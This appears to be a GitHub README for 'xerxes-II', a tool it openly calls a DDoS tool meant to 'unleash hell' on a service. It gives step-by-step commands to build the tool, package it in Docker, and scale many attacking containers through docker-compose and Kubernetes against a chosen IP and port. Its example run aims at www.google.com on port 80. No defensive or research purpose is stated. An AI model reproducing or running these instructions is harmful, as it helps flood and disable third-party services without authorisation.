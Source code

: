 # xerxes-ii
---
XERXES-ii is a DDOS tool powered by `containers`. 

## Usage

To unleash hell on a particular service 
- Clone the repository`$ git clone https://github.com/ahab94/xerxes-II.git`
- Change Directory to the xerxes-II `$ cd xerxes-II`

### Build executable
*Note: gcc dependencies are required*
- Compile and build xerxes-II `$ gcc -o xerxes-II xerxes-II.c`

### Build image
- Build a docker image image`$ sudo docker build . -t xerxes-ii`

### DDOS using Kubernetes
*NOTE: Kubernetes is required to be setup on the host*
- Create `Xerxes` pod `$ kubectl create -f kubernetes/xerxes-ii-pod.yaml`

### DDOS using Docker
*NOTE: Docker and DockerCompose must be installed on the host*
- In docker-compose.yml define the IP and Port you want to do DDOS on for example.
```YAML
version: '2'
services:
  xerxes-ii-some-service-1:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-1-ip-or-hostname
      - PORT=some-service-1-port

  xerxes-ii-some-service-2:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-2-ip-or-hostname
      - PORT=some-service-2-port

  xerxes-ii-some-service-3:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-3-ip-or-hostname
      - PORT=some-service-3-port
```
- Spawn N number of containers for DDOS `$ sudo docker-compose up --scale xerxes-ii-some-service-1=<number-of-nodes-for-DDOS>`

### Spawning container for dev env
- Initiate xerxes-II container `$ sudo docker run -e IP=www.google.com -e PORT=80 -it xerxes`

### Spawning process for dev env
- Spawn the xerxes-II process `$ bash entrypoint-to-hell.sh`
